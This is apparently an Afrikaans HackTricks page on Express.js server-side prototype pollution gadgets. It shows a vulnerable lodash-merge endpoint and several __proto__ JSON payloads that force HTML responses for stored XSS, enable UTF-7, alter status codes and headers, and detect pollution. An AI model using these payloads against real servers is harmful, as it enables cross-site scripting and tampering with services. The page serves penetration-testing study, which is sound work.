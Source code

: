 # Express Prototype Pollution Gadgets

{{#include ../../../banners/hacktricks-training.md}}

## Dien XSS-antwoorde

**Vir verdere besonderhede** [**kyk na die oorspronklike navorsing**](https://portswigger.net/research/server-side-prototype-pollution)

### Verander JSON-inhouds tipe na HTML

In 'n Express-app wat 'n **JSON-inhouds tipe antwoord** gebruik en 'n JSON reflekteer:
```javascript
app.use(bodyParser.json({ type: "application/json" }))
app.post("/", function (req, res) {
_.merge({}, req.body)
res.send(req.body)
})
```
In hierdie gevalle is XSS normaalweg nie moontlik met 'n JSON-inhouds tipe nie. egter, met prototipe besoedeling kan ons **Express verwar om 'n HTML-antwoord te lewer.** Hierdie kwesbaarheid is afhanklik van die aansoek wat **`res.send(obj)`** gebruik en die liggaam parser met die toepassing/json-inhouds tipe.
```json
{ "__proto__": { "_body": true, "body": "<script>evil()" } }
```
Deur **`body`** en **`_body`** eienskappe te **besoedel**, is dit moontlik om **Express te laat dien die HTML inhoud tipe** en die `_body` eienskap te reflekteer, wat lei tot gestoor XSS.

### Render UTF7

Dit is moontlik om express **UTF-7 inhoud te laat render met**:
```json
{ "__proto__": { "content-type": "application/json; charset=utf-7" } }
```
## Veilige Skandeertegnieke

### JSON spasie

Die volgende PP sal eienskappe binne 'n JSON 'n ekstra spasie gee wat die funksionaliteit nie sal breek nie:
```json
{ "__proto__": { "json spaces": " " } }
```
Dan sal 'n weerspieëlde JSON soos volg lyk:
```json
{"foo":  "bar"} -- Note the extra space
```
### Blootgestelde Koppe

Die volgende PP gadget sal die bediener dwing om die HTTP-kop: **`Access-Control-Expose_headers: foo`** terug te stuur.
```json
{ "__proto__": { "exposedHeaders": ["foo"] } }
```
Dit vereis dat die **CORS-module geïnstalleer word**

### **OPTIONS Metode**

Met die volgende payload is dit moontlik om 'n **metode uit 'n OPTIONS-respons te verberg**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Status**

Dit is moontlik om die **teruggegee statuskode** te verander met die volgende PP payload:
```json
{ "__proto__": { "status": 510 } }
```
### Fout

Wanneer jy aan 'n prototipe toewys met 'n primitiewe soos 'n string, produseer dit 'n **geen-operasie nie, aangesien die prototipe 'n objek moet wees**. As jy probeer om 'n prototipe objek aan die `Object.prototype` self toe te wys, sal dit **'n uitsondering gooi**. Ons kan hierdie twee gedrag gebruik om **te detecteer of prototipe besoedeling suksesvol was**:
```javascript
;({}).__proto__.__proto__ = {}(
//throws type exception
{}
).__proto__.__proto__ = "x" //no-op does not throw exception
```
### Reflected Value

Wanneer 'n toepassing 'n objek in sy antwoord insluit, kan dit insiggewend wees om 'n attribuut met 'n **ongewone naam saam met `__proto__`** te skep. Spesifiek, as **slegs die ongewone attribuut in die antwoord teruggestuur word**, kan dit die toepassing se kwesbaarheid aandui:
```json
{ "unusualName": "value", "__proto__": "test" }
```
Boonop, in scenario's waar 'n biblioteek soos Lodash gebruik word, bied die instelling van 'n eienskap sowel via prototipe besoedeling (PP) as direk binne die objek 'n ander diagnostiese benadering. As so 'n eienskap uit die antwoord weggelaat word, dui dit daarop dat Lodash die bestaan van die eienskap in die teikenobjek verifieer voordat dit saamgevoeg word:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Verskeie

### Laat Punte Toe

Daar is 'n opsie in Express wat jou toelaat om **objekte te skep uit soekstring parameters**.\
Jy kan dit beslis in 'n fout **ketting** gebruik om 'n **prototipe besoedeling kwesbaarheid** te ontgin.
```json
{ "__proto__": { "allowDots": true } }
```
**`?foo.bar=baz` skep 'n objek in Node.**

## Verwysings

- [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

{{#include ../../../banners/hacktricks-training.md}}

